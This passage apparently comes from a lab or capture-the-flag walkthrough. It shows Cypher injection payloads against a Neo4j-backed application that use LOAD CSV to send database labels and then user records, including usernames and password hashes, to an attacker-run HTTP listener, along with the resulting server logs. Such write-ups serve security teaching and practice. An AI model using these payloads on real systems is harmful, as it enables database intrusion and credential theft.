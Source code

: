 python3 -m http.server 80

```text
10.10.11.210 - - [01/Sep/2023 22:45:31] code 400, message Bad request syntax ('GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1')
10.10.11.210 - - [01/Sep/2023 22:45:31] "GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1" 400 -
```

So we can exfiltrate data from this Neo4j database

We can get labels :

```text
' OR 1=1 WITH 1 as a CALL db.labels() yield label LOAD CSV FROM 'http://10.10.14.10/?l='+label as l RETURN 0 as _0 //
```

```text
10.10.11.210 - - [01/Sep/2023 23:02:57] "GET /?l=user HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:02:57] "GET /?l=employee HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:02:57] "GET /?l=user HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:02:57] "GET /?l=employee HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:02:57] "GET /?l=user HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:02:57] "GET /?l=employee HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:02:58] "GET /?l=user HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:02:58] "GET /?l=employee HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:02:58] "GET /?l=user HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:02:58] "GET /?l=employee HTTP/1.1" 200 -
```

The label "user" could be interesting

```text
' OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.14.10/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```

```text
10.10.11.210 - - [01/Sep/2023 23:18:58] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:18:58] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:18:58] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:18:58] "GET /?username=john HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:18:58] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:18:58] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:18:58] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:18:58] "GET /?username=john HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:18:59] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:18:59] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:18:59] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:18:59] "GET /?username=john HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:18:59] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:18:59] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:18:59] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:18:59] "GET /?username=john HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:18:59] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:18:59] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:18:59] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:18:59] "GET /?username=john HTTP/1.1" 200 -
```